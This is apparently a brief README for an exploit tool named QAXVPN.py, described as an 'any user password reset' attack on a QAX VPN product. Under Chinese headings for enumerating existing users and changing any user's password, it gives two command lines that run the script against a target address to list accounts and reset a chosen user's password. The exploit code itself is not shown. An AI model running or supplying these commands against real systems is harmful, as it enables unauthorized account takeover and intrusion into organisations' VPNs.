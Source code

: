 # QAX_VPN Any User Password Reset


   ### 使用方法
* ##### 遍历当前存在用户</br>
      python QAXVPN.py -t https://1.1.1.1 -lu
* ##### 修改任意用户密码</br>
      python QAXVPN.py -t https://1.1.1.1 -u user1 -cp

